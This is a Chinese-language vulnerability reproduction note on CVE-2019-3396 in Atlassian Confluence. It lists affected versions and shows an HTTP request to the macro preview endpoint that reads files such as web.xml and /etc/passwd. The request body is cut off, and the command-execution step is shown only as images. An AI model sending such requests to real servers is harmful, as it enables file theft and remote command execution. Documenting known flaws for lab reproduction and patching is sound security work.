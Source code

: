 # （CVE-2019-3396）Atlassian Confluence 路径穿越与命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Confluence/CVE-2019-3396.html](http://book.iwonder.run/0day/Confluence/CVE-2019-3396.html)

## 一、漏洞简介

Atlassian Confluence 是企业广泛使用的 wiki 系统，其 6.14.2 版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用 Velocity 模板注入执行任意命令。

## 二、漏洞影响

所有 1.xx，2.xx，3.xx，4.xx 和 5.xx 版本

所有 6.0.x，6.1.x，6.2.x，6.3.x，6.4.x 和 6.5.x 版本

6.6.12 之前的所有 6.6.x 版本

所有 6.7.x，6.8.x，6.9.x，6.10.x 和 6.11.x 版本

6.12.3 之前的所有 6.12.x 版本

6.13.3 之前的所有 6.13.x 版本

6.14.2 之前的所有 6.14.x 版本

## 三、复现过程

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","w 
```

![image](img/756de0fe2903072d35ac8ba03a4ccb68.png)

6.12 以前的 Confluence 没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个 Velocity 模板，我们可以通过模板注入（SSTI）来执行任意命令：

![image](img/0a0cdaa79686962ba8682edb417cd6c4.png)

## 参考链接

> [https://vulhub.org/#/environments/confluence/CVE-2019-3396/](https://vulhub.org/#/environments/confluence/CVE-2019-3396/)

